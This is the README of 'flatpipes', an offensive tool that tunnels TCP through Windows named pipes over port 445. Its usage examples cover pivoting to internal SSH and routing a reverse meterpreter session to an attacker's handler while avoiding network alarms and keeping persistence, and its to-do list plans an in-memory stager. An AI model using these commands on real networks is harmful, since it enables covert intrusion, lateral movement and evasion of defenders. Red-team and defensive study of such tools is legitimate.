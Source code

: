 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

Since it seems it can help with multiple scenarios, let's list some of the them:

#### TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server): *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*
> The above will create two pipes "pipename_s2c" & "pipename_c2s" and as soon as negotiation is ok will open a TCP listener at 10001

On the 2nd Windows host (pipe client): *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001*
> Here we just connect to the pipe(s) created earlier on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver: *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*
> The above will create our pipes for "IPC", and as soon as we connect, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes

On the jumphost: *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*
> The above will PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22

Just ssh on 127.0.0.1 22 and you are through the town portal

#### Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver: *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*
> Same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter

On the jumphost: *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*
> We connect to the MS Fileserver and immediately connect to the handler. 

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---
I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<dl>
  <dt>Todo</dt>
  <dd>Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)</dd>
  <dd>"Monkey patch" the above stager to change port on the fly (on hex)</dd>
  <dd>Think any other useful scenarios</dd> 
</dl>
